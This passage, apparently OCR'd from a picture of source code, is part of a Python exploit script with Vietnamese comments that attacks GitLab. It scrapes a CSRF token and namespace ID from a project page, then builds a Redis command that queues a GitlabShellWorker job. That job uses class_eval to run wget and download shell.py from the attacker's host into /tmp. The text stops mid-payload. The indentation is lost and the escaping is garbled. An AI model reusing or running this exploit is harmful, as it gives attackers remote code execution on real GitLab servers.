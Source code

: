 if namespace_id:

namespace_id = namespace_id.get(\'value\')

else:

\# Thử tìm từ dropdown nếu không có input field

namespace_select = soup.find(\'select\', {\'name\':
\'project\[namespace_id\]\'})

if namespace_select:

namespace_option = namespace_select.find(\'option\', selected=True) or
namespace_select.find(\'option\')

if namespace_option:

namespace_id = namespace_option.get(\'value\')

else:

namespace_id = \"1\" \# Default cho user root

else:

namespace_id = \"1\"

print(f\"\[+\] Project CSRF Token: {project_token}\")

print(f\"\[+\] Namespace ID: {namespace_id}\")

return project_token, namespace_id

except Exception as e:

print(f\"\[-\] Lỗi khi lấy thông tin project: {e}\")

sys.exit(1)

def exploit(project_token, namespace_id, option):

try:

project_name = get_random_name()

print(f\"\[+\] Tên project: {project_name}\")

\# Tạo payload Redis dựa vào lựa chọn (tải file hoặc thực thi)

if option == \"1\":

\# Payload để tải shell.py xuống máy mục tiêu

print(\"\[+\] Tạo payload để tải shell.py\...\")

redis_command = f\"\"\"

multi

sadd resque:gitlab:queues system_hook_push

lpush resque:gitlab:queue:system_hook_push
\"{{\\\"class\\\":\\\"GitlabShellWorker\\\",\\\"args\\\":\[\\\"class_eval\\\",\\\"open(\\\'\|wget
http://{lhost}/shell.py -O /tmp/shell.py
\\\').read\\\"\],\\\"retry\\\":3,\\\"queue\\\":\\\"system_hook_push\\\",\\\"jid\\\":\\\"ad52abc5641173e217eb2e52\\\",\\\"created_at\\\":1513714403.8122594,\\\"enqueued_at\\\":1513714403.8129568}}\"
